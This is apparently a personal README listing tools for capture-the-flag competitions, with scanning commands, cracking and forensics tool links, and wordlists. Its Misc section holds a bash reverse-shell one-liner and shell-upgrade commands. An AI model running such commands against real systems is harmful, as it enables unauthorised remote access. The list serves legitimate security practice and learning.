 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
Get versions
`nmap -sC -sV <target>`
Basic scan all ports
`nmap -p- <target>`


##### wfuzz

##### Gobuster

## Web
Looks for `sitemap.xml` or `robots.txt`

##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf
##### Hydra
https://github.com/frizb/Hydra-Cheatsheet
##### PadBuster
Used to execute and oracle padding attack

##### Hashcat
https://github.com/frizb/Hashcat-Cheatsheet

## pwn

##### [pwntools](https://github.com/Gallopsled/pwntools)

##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

##### Volatility
The Volatility Framework isfor the
extraction of digital artifacts from volatile memory (RAM) samples.

https://github.com/volatilityfoundation/volatility
https://github.com/volatilityfoundation/community

## Steg

##### Exiftool
##### Stegsolve
##### Steg Crack
##### Steg Hide
##### zsteg
##### jsteg
##### pngcheck

##### Online tools
https://stylesuxx.github.io/steganography/

## Reversing

##### Radare
https://github.com/zxgio/r2-cheatsheet/blob/master/r2-cheatsheet.pdf

##### readelf

##### [checksec](https://github.com/slimm609/checksec.sh)
##### angr
##### z3

## Misc

##### Reverse Shell
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`

##### Wordlists
[Rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)
[SecLists](https://github.com/danielmiessler/SecLists)

###### Cewl 
Wordlist generator

##### [Virus total](https://www.virustotal.com/)
##### [Have I been Pwned](https://haveibeenpwned.com/)


##### Linux enumeration
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[Linenum](https://github.com/rebootuser/LinEnum)
